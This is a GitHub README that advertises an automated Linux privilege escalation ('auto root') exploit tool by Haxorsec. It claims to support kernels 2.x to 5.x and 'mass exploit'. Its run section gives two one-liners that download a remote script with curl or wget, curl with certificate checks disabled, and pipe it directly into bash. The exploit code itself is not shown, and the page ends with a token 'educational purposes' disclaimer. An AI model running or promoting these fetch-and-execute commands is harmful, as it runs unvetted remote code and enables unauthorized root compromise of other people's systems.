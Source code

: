 
<div align="center"><h1>Auto Root / Privilege Escalation Exploit By Haxorsec</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>
<br>

<div align="center"><h1>Support & Features</h1></div>

<samp>
  
* Kernel 2x
  
* Kernel 3x
  
* Kernel 4x
  
* Kernel 5x
  
* TOP Exploit root
  
* All Mass Exploit

</samp>

<div align="center"><h1>Requirements:</h1></div>

<samp>
  
* GIT
  
* WGET
  
* GCC
  
</samp>

<div align="center"><h1>How To Run ?</h1></div>


<div align="center"><h1>Curl</h1></div>

```
root@HaxorSec:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh -k)"	
```

<div align="center"><h1>Wget</h1></div>

```
root@HaxorSec:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh)"
```

<div align="center"><h1>Read this</h1></div>

<samp>

OpenSource Project By Haxorsec


<div align="center">
<img src="https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.png">  
</div>


<div align="center">
 <h1> Contact Me : </h1>
<a href="https://t.me/ntKiL22"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white" /></a>
</div>

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository will not hold the author responsible.
Do not pentest without explicit permissions.
